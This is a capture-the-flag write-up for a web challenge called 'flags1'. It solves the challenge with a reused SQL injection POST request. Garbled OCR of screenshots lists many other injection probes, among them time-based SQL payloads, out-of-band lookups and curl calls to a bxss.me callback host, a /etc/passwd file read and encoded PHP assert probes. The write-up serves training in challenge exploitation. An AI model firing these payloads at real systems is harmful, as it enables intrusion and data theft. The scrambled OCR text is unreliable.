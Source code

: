 # flags1
> Come submit your flags for all to see!

## About the Challenge
We were given a website and we need to find the flag there


[Image extracted text: Come get your
OR - SELECT
@@TERSION
{base} 
UTL
IVADDR get
host_address(' {domain} ')
{base}
##Jor/**""2 ='z
{base} '
{base}
{base}
(select load_file('{IIl{domain}lle')) -
{base}
{base}
{base} ')))#
{base} ')) or (('x'=x
{base}
waitfor
O:0:20'_
{base} '
@version like '%0
{base} '
{base} ' and (select-from(select(sleep( O)))a) -
{base} or 7=7#
{base}
tz offset
something
select
replace
order
orf
or]' #
id'or
flag
flag
cursed{cock}
asd
11111
and 7=7
(select from dual)
O)waitfor delay'O:0.20' _
Add your
Submit
flags
deliy
flags]


We can input some random string and then our input will be displayed in the homepage

## How to Solve?
Actually this chall is literally the same with `UTCTF - Confessions` chall. So i tried to use the same payload to solved this chall

```
POST /sendflag HTTP/2
Host: flags.mc.ax
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

flag="); SELECT text FROM confessions; --
```


[Image extracted text: Burp
Project
Intruder
Repeater
Window
Help
Turbo Intruder
Burp Suite Community Edition V2023.3,2
Temporary Project
Dashboard
Target
Proxy
Intruder
Repeater
Collaborator
Sequencer
Decoder
Comparer
Logger
Extensions
Semd
cancel
Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST /sendflag HTTP/=
HTTP / =
200  OK
Host :
flags
mC
Content
Type:
text /plain;
charset-ut f-8
User-Agent
Hozilla/5
(Vindous
IT
10
Vine4;
{64;
17:109
Geclo/:O100101
Dat e
Hon ,
10 Apr
2023
21.28
GHT
Firefor/1ll
Server
Werkzeug/ =-
Python/ 3 _
8-10
Aecept
Content
engch:
2541
cext / html
applicat
on / xhthltxul , applicat
on/ <ul
F0
image / avif
1nage /vebp
1*{T=0.8
Accept-Language
en-US
en;
chakk$
for
adding
your
flags
cursed(thank_
You
for
che
flags}
Lecept-Encoding:
gzip ,
deflace
cursed(thanl_
You
for
the
flags}
Content-Type
applicat
on / *--form-ur lencoded
idghatthisis
asd'
asd
id
Content
Lengch:
dunion
select
dunion
select
Or[
0r 1
0r[
Origin: https: / / flags
IC
asd
OPOOSELECTOO@@VERSION"
do
not
say
Yes
inyour
Referer:
https: / / flags
mC
ax/
ansuer
or1
11111
or1
11111
no
aaaa
Upgrade
Ins
cure-Requests
aaaa
{base}/ *' /
(base}
Sec-
etch-Dest
docuent
(base}
(base}
7-7
(base}
7-7 "
(base}
Sec-
etch-Hode
navigate
7-71 -
(base}
7-705
{base}
id
lik e
{base}
Version ( |
Sec-
etch-
Site
ae
origin
like
(base}
ad
7=7
(base }
and 7-7--"
1
('0
Sec-Fetch-User:
(base}
IUTL
INADDR. get
host
address
donain}
crailers
UTL
HIDDR
get
host_
address
OPLCLE
EIC ODE
STRING
donain}
(base}
EXEC
master
dirtree
1 I=
donain}
(base}
EXEC
nascer
dirtree
flag=
SELECT
cext
FROH
confessions
LTIt
domain}
1;DECLARE
@:
1s VLRCHLR (255 ;select
@x=HSSQL
EIC ODE_STRING (naster
dirtree
II } ! (donain}! s
EXEC ( @x !
(base}! |
{DECLARE
VARCHAR ( 255
{select
@x=HSSQL
ENCODE
STRING (haster
dircree
(domain}
4S
EXEC ( @x !
(base}
(select
fron ( select (sleep (20)
(base}
(select
fron ( select (sleep (201
insert
having
like
bfilenane
(base}
(select
load
file
1 |
(donain} ! !le" +
1Iun8Hi
EsSLAueP
trespons
Urice
9338959*9682241+
coderaple
com>
mbcc: 009_47 -34-21
34
lezas
19457
~@bxss
me
file: / / [etc/passud
4"_L
2+892-892-1-o+0+0+1
[EsSLAueP
0 _
1f (nov
~sysdate( )
sleep (15 !
XoR(i
(nov
ssysdate
sleep (15 |
0)XOR
(n5
loolup
q-cname
hityj
fbxxknn87284
bxss-me
cur 1
hityjofbxxknn87284
bxss
me
(nsloolup
q-cname
hityj
fbxxkni87284
bxss
Ie
cur ]
hityjofbxxknn87284
bxss
me
(nslookup
9-cname
hityj
fbxxknu87284
bxss
me
cur 1
hityj
fbxxknn87284
brss
me
Http
{bxss
ne/e/fic
exc
066
1*17
bxss
me
assert (base64
decode
cHJpbnQobbQHDHxHzH3Sk 7
Pr IVeUPt
776-(SELZCT
776
FROH PG
SLEEP (15 /
Hccp
{bxss
ne/t/*ss
hcul?+00
{print (nd5 ( 31337)
{8a=
"EsSLLuep
Isleep
27*1000) *VrUVI
@print (nd5 ( 313371
(@print (nd5 ( 313371
}( {
))))))
2))
)))
Tooonano
Seorch;
matches
~eorcne
matches
4-0]


If you are still confused, you can refer to this [repository](https://github.com/utisss/UTCTF-23/tree/main/guppy/web-confession)

```
cursed{thank_you_for_the_flags}
```